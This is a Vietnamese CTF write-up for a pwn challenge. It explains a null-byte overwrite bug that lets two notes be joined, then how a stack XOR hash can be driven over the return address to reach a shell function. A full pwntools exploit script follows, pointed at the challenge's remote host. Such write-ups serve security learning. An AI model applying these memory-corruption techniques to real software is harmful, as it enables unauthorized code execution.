









Bài này cho phép ta viết 0x20 bytes vào 1 cái note trong 0xa note, với mỗi cái note được ngăn cách với nhau bởi null byte

Sau đó, cái note của ta sẽ được đem đi qua 3 transformation và check để chạy vào 1 hàm win (fake)







Phase 1 chuyển hóa đầu của note, trừ đi 0x20 vào ký tử đầu

Phase 2 tính lại len của a1, RỒI mới trừ đi 0x10 vào a1Ilen-1I, tức nếu ta làm sao để phần tử đầu tiên bằng 0x20, thì len ở đây sẽ trả về 0 và phase2 sẽ chỉnh sửa NULL byte ngăn cách 2 note, khiến cho ta có thể link 2 note với nhau

Phase 3 copy cái note của ta vào 1 chunk dc malloc rồi gắn vào đuôi của cái note copy môt đoạn string 



Sau đó ans check sẽ cmpstring của ta và trả về Đúng/Sai, lưu ý là nó chỉ check 13 bytes đầu, nên ta chỉ cần thỏa mãn 13 bytes đầu là đủ để qua dc ans_chk 



Trong hàm win mà ta chạy tới, cái process sẽ sử dụng 1 cái hash xor để hash các cái kí tự của ta lại để lấy flag(fake), nhưng cái hash này sẽ thực hiện trên stack, nên giả định nếu ta có 1 xâu đủ dài, ta có thể hash tới return address để có được 1 cái arbitary execution 



Cái hash của ta ở 0x7ffc98300220 và return address ở 0x7ffc98300278



Đáng chú ý, ta có một hàm gọt shell trong binary, và cái srand của hash này nó xử dụng 1 seed cụ thể, nên ta có sẵn các dữ liệu để build xâu hash

Hơn thế nữa, vì ta có thể nới dài xâu bằng bug trong phase 2, nên ta có thể tùy ý build 1 payload

Chú ý là v4 (count) và i (interator) cũng nằm trên stack, và ta cần giữ nguyên được giá trị của nó trên stack

```
#!/usr/bin/env python3

from pwn import *
from ctypes import CDLL

exe = ELF("./w1recruit_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

context.binary = exe
context.log_level = "info"

def exec(r,idx,data):
    r.sendlineafter(b"Index >",str(idx).encode())
    r.sendlineafter(b"Answer >",data)

def exec_skip(r,idx):
    r.sendlineafter(b"Index >",str(idx).encode())
    r.sendafter(b"Answer >",b"\n")

def conn():
    if args.LOCAL:
        r = process(exe.path)
        if args.DEBUG:
            gdb.attach(r, gdbscript="b *0x401514")
    else:
        r = remote(args.HOST or "45.122.249.68", int(args.PORT or 10364))

    return r


def build_payloads():
    # pulling srand from libc
    libc_runtime = CDLL(libc.path)
    libc_runtime.srand(0x539)

    length = 105
    random = [libc_runtime.rand() & 0xff for _ in range(length)]
    table = exe.read(0x402190, length)

    # original payload (pasted from gdb)
    source = bytearray.fromhex(
        "69206c6f7665207731636164656d7921203c3341414141414141414141414131"
        "f022424242424242424242424242424242cf6b37e06537af7f4444444444444434f0"
    )
    source += b"\0" * (length + 1 - len(source))

    dest = bytearray(b"A" * length)
    dest[0x30:0x38] = p64(length)       # strlen
    dest[0x3c:0x40] = p32(0x3c)         # counter
    dest[0x58:0x60] = p64(0x4017d5)     # win

    # preserving record2
    for i in range(0x61, 0x41, -1):
        source[i] = source[i + 1] ^ dest[i] ^ random[i] ^ table[i]
        if source[i] in (0, 0x0a) or (i == 0x61 and (source[i] + 0x10) & 0xff in (0, 0x0a)):
            dest[i] ^= 0x69
            source[i] = source[i + 1] ^ dest[i] ^ random[i] ^ table[i]

    # preserving record1
    for i in range(0x41, 0x21, -1):
        source[i] = source[i + 1] ^ dest[i] ^ random[i] ^ table[i]
        if source[i] in (0, 0x0a) or (i == 0x61 and (source[i] + 0x10) & 0xff in (0, 0x0a)):
            dest[i] ^= 0x69
            source[i] = source[i + 1] ^ dest[i] ^ random[i] ^ table[i]


    record1 = bytearray(source[0x21:0x41])
    record1[-1] = (record1[-1] + 0x10) & 0xff

    record2 = bytearray(source[0x42:0x62])
    record2[-1] = (record2[-1] + 0x10) & 0xff

    return bytes(record1), bytes(record2)


def main():
    r = conn()

    record1, record2 = build_payloads()

    exec(r, 0, b"\x89 love w1cademy! <3".ljust(0x20, b"A"))
    exec(r,1,b"\x20"+b"B"*0x19)
    exec(r, 1, record1)
    exec(r,2,b"\x20"+b"C"*0x19)
    exec(r, 2, record2)
    exec_skip(r,0)

    r.interactive()


if __name__ == "__main__":
    main()
```